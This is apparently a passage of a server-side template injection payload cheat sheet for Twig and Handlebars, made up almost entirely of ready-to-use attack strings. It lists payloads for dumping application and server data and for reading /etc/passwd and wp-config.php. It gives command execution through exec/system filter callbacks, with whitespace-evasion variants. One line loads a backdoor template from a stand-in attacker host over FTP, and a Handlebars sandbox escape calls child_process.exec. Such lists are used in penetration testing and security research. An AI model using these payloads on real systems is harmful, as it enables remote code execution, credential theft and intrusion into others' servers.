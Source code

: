 #### Twig

Get information

```php
{{_self}} #(Ref. to current application)

{{_self.env}}

{{dump(app)}}

{{app.request.server.all|join(',')}}
```

File read

```php
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

{{include("wp-config.php")}}
```

Command execution

```php
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}

{{['id']|filter('system')}}

{{['cat\x20/etc/passwd']|filter('system')}}

{{['cat$IFS/etc/passwd']|filter('system')}}
```

### NodeJS

#### Handlebars

Command execution

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
